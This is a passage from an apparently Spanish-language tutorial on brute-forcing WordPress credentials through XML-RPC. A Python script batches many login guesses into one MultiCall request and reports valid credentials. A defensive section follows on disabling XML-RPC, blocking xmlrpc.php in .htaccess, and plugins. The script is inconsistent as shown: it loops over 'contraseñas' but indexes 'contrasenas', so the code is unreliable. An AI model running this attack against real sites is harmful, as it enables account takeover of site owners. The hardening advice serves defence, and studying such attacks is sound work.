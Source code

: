 ```python
# Construimos el payload con múltiples intentos en una sola solicitud
def fuerza_bruta():
    multicall = xmlrpc.client.MultiCall(wp)
    for usuario in usuarios:
        for contrasena in contraseñas:
            multicall.wp.getUsersBlogs(usuario, contrasena)
    
    # Enviamos la solicitud
    resultados = multicall()
    for i, resultado in enumerate(resultados):
        if isinstance(resultado, list):
            print(f"[+] Credenciales válidas encontradas: {usuarios[i // len(contrasenas)]} - {contrasenas[i % len(contrasenas)]}")
            return
    print("[-] No se encontraron credenciales válidas.")

# Ejecutamos el ataque
fuerza_bruta()
```

Este script envía múltiples combinaciones en una sola solicitud, lo que lo hace mucho más rápido que los ataques tradicionales.

---

## **5. Protección contra Ataques de Fuerza Bruta en XML-RPC**

Dado que XML-RPC es un objetivo frecuente de ataques, es importante tomar medidas de seguridad.

### **Desactivar XML-RPC (si no es necesario)**

Si no usas XML-RPC, puedes desactivarlo añadiendo este código en `functions.php` de tu tema:

```php
add_filter('xmlrpc_enabled', '__return_false');
```

### **Bloquear el acceso mediante `.htaccess`**

Puedes bloquear el acceso directo a `xmlrpc.php` agregando esto en tu `.htaccess`:

```apache
<Files xmlrpc.php>
    Order Deny,Allow
    Deny from all
</Files>
```

### **Plugins de seguridad**

Si no quieres modificar archivos manualmente, puedes usar plugins como:

- **Wordfence Security**: Bloquea ataques de fuerza bruta.
- **Disable XML-RPC**: Desactiva completamente XML-RPC.

---